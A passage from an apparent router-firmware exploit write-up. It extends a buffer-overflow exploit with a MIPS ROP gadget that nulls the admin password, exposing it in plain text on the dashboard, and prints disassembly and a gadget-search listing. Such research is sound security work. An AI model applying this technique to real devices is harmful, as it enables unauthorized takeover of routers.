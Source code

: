 These `sprintf()` strings look like the password field on the main page of the router (`dashboard.htm`). When this main page is "locked", the password field is displayed with the first character then `*******`. When this main page is "unlocked", the password field is displayed in plain text.

![14](./images/14.jpg)

So by setting the admin password to NULL, `FUN_8015f080` will return 1 and _likely_ cause `FUN_8005d9c8` to display the admin password in plain text! To take advantage of this, the previous exploit code will be modified to include a [ROP Gadget](https://en.wikipedia.org/wiki/Return-oriented_programming) to clear this admin password. Since the exploit is string based, in order to NULL the admin password, a ROP gadet must be found that stores 0 to an address in a register under user control through the buffer overflow. Looking at the disassembly of the function epilogue of `FUN_801609d4` (which contains the buffer overflow) it is clear that the overflow gives the user control of register `s0`.

```assembly
80160a30  44 00 bf 8f  lw ra, 0x44(sp)
80160a34  40 00 b0 8f  lw s0, 0x40(sp)
80160a38  08 00 e0 03  jr ra
80160a3c  50 00 bd 27  addiu sp, sp, 0x50
```

So a ROP gadget is needed that stores 0 using an address in `s0` and the exploit buffer will ensure that the address of the admin password is "restored" into `s0` as `FUN_801609d4` returns and cleans up its stack. Finding this ROP gadget is easier using the following Ghidra plugin: [MIPS ROP Gadget](https://github.com/a-rey/ghidra_scripts/tree/master/MIPS_ROP_Gadgets). The installation guide is also posted on the Github page. Using this plugin and searching for `sw zero,0x0(s0)` gives the following results:

```
MIPS_ROP_Gadgets.py> Running...
Looking for "sw zero,0x0(s0)" within 10 instructions of the function epilogue
  Address of ROP   |     ROP Gadget       |       Stack Size       | Instruction Proximity
     800d2944      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     800e62c0      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           10
     800f6d44      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     801662f8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     801684c4      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175ec4      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175f20      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175f84      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80175fd8      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80176698      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80176988      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     801769ec      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176a54      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176abc      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176b24      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x20    |           5
     80176b7c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178720      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178788      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178b70      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178cac      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178d38      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178e20      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           4
     80178e98      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178f00      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178f5c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80178fcc      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     8017903c      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80179230      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
     80179288      |    sw zero,0x0(s0)   |   _addiu sp,sp,0x10    |           5
```